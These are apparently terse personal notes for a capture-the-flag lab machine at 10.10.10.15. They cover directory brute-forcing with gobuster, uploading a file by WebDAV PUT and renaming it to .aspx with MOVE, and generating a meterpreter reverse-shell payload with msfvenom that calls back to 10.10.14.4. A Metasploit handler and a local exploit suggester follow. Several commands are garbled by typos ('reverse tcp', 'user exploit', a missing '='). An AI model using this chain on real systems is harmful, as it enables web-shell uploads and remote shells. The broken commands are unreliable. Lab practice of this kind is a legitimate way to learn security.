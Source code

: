 	# how to use gobuster
	gobuster -w /usr/share/wordlist -u http://10.10.10.15 -L 20
	
	# Burp 
	PUT /ippsec.html HTTP/1.1 
	
	msfvenom -p linux/meterpreter/reverse tcp LHOST 10.10.14.4 LPORT=1337 -f aspx 
	
	copy into rerquest to upload. 
	
	> msfconsole 
	> user exploit/multi/handler
	> set LHOST tun0
	> set LPORT 1337
	
	change to OPTIONS 
	MOVE /ipsec.html http/1.1
	Destination: /ippsec.aspx
	
	> use post/multi/recon/local_exploit_suggester
	
	> set session 1 
	
	
	set lhost tun0
	
	locate auxilary/scanner | grep -i 'tcp' | grep -i scan 
	
	
	# nmap the elk server for OS 
	
	
	
	
	
	
	
	
	
	
	
	